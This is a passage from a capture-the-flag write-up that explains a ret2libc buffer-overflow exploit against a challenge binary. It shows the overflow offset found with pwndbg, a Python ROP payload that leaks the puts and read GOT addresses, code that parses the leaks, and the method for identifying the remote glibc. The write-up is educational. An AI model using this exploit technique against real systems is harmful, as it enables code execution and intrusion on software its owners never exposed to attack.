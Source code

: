 ```python
pwndbg> cyclic -l 0x6161616161616164
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```

Note: To better understand the further sections, it is advisable to understand what GOT and PLT is. This is a great video by LiveOverflow explaining GOT and PLT. https://www.youtube.com/watch?v=kUk5pw4w0h4

So we found it. It takes 24 bytes of characters till the input reached the RIP or the return address. The strategy for leaking the LibC runtime address are :-

1. Call `puts` function
2. Use GOT value as the argument
3. The runtime value of the GOT will be output

This is the payload for it

```python
ret = 0x000000000040101a # find using ROPgadget
pop_rdi = p64(0x0000000000401273) # find using ROPgadget
plt_puts = p64(elf.plt['puts'])
got_read = p64(elf.got['read'])
got_puts = p64(elf.got['puts'])
payload = b'A'*24
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_read + plt_puts
payload += p64(elf.sym['main'])
```

In summary, this payload is designed to leak the runtime address of the `puts` function and `read` functon by calling `puts(got_puts)` and `puts(got_read)`. This address can then be used to calculate the addresses of other LibC addresses such as the `system` function.

Leaking the address, we want to extract the leaked values. This can be done by try and error, the code snippet below is how I extract the leaked informations.

```python
io.sendline(payload)
io.recvline()
io.recvline()
leak1 = unpack(io.recv(6).ljust(8,b'\x00'))
io.recvline()
leak2 = unpack(io.recv(6).ljust(8,b'\x00'))
```

Now we want to execute this payload on the Deployed Machine provided by the organiser. This is because we want to leak the libc addresses of their machine. Our local machine currently uses our own glibc. Executing this program will give us this output:-

![Leaked Libc](/images/libriddle-osctf/leakedLibc.png)

glibc functions will have their addresses randomized due to ASLR. However, the last 3 digits of the function will stay the same. Because of this, we can use a libc database search to find out which glibc does the deployed machine uses. https://libc.rip/ is one of the libc database search.

